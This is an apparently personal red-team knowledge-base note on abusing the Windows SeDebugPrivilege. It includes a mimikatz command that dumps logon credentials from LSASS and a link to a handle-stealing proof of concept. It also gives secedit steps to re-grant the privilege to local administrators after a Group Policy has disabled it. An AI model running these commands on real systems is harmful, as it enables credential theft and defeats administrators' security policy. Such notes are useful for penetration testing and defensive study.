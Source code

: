 ```yaml
---
title: SeDebugPrivilege
---
```


A [[notes/windows/privilege]] that allows to access the memory of any process and therefore escalation to local admin.

Either by [[notes/windows/lsass-dump|dumping LSASS]].

~~~ bat
.\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
~~~

Or by stealing a handle from a system process with [SeDebugPrivilegePoC](https://github.com/daem0nc0re/PrivFu/blob/main/PrivilegedOperations/SeDebugPrivilegePoC).

# GPO Bypass

The debug privilege can be disabled globally via a GPO, but this restriction can be bypassed.

Run `whoami /priv` as local admin and notice that `SeDebugPrivilege` is missing.

Export the current security policy to a file.

~~~ bat
secedit.exe /export /cfg secpolicy.inf /areas USER_RIGHTS
~~~

Edit `secpolicy.inf` to look like the following:

~~~
...
[Privilege Rights]
SeDebugPrivilege = *S-1-5-32-544
...
~~~

This allows the group of local administrators to use the debug privilege again.

Import the modified policy.

~~~ bat
echo J | secedit.exe /configure /db secedit.sdb /cfg secpolicy.inf /overwrite /areas USER_RIGHTS
~~~

In order for the changes to take effect you must log out and log in again.
The changes will stay in effect until the next GPO update cycle.

Alternatively you can abuse [[notes/windows/lsass-dump-builtins|TrustedInstaller]].
It always has the debug privilege.
